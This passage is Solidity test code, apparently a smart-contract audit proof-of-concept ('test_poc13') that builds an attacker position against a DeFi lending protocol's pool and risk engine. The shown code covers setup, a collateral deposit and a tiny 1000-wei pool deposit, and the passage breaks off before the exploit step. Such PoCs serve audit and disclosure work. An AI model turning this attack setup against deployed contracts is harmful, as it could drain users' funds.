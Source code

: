 ```js

    Pool pool;
    Registry registry;
    address payable position;
    RiskEngine riskEngine;
    PositionManager positionManager;

    FixedPriceOracle asset1Oracle;
    FixedPriceOracle asset2Oracle;
    FixedPriceOracle asset3Oracle;
    address attacker = makeAddr("attacker");

    function setUp() public override {
        super.setUp();

        asset1Oracle = new FixedPriceOracle(10e18);
        asset2Oracle = new FixedPriceOracle(0.5e18);
        asset3Oracle = new FixedPriceOracle(1e18);

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        positionManager = protocol.positionManager();

        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
        riskEngine.setOracle(address(asset2), address(asset2Oracle));
        riskEngine.setOracle(address(asset3), address(asset3Oracle));
        vm.stopPrank();

        asset1.mint(address(this), 10_000 ether);
        asset1.approve(address(pool), 10_000 ether);

        Action[] memory actions = new Action[](1);
        (position, actions[0]) = newPosition(attacker, bytes32(uint256(3_492_932_942)));

        PositionManager(positionManager).processBatch(position, actions);

        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(linearRatePool, address(asset3), 0.75e18);
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset3));
        riskEngine.requestLtvUpdate(linearRatePool, address(asset2), 0.75e18);
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset2));
        vm.stopPrank();
    }

    function deposit_asset2(uint96 amount) public {
        asset2.mint(attacker, amount);
        vm.startPrank(attacker);
        Action[] memory actions = new Action[](1);
        actions[0] = addToken(address(asset2));
        PositionManager(positionManager).processBatch(position, actions);
        actions[0] = deposit(address(asset2), amount);
        asset2.approve(address(positionManager), amount);
        PositionManager(positionManager).processBatch(position, actions);
        vm.stopPrank();
    }

    function test_poc13() public {
        // attacker create a position and deposit collateral to :
        deposit_asset2(100 ether);
        // attacker deposit 1000 wei to the pool :
        pool.deposit(linearRatePool, 1000, attacker);
```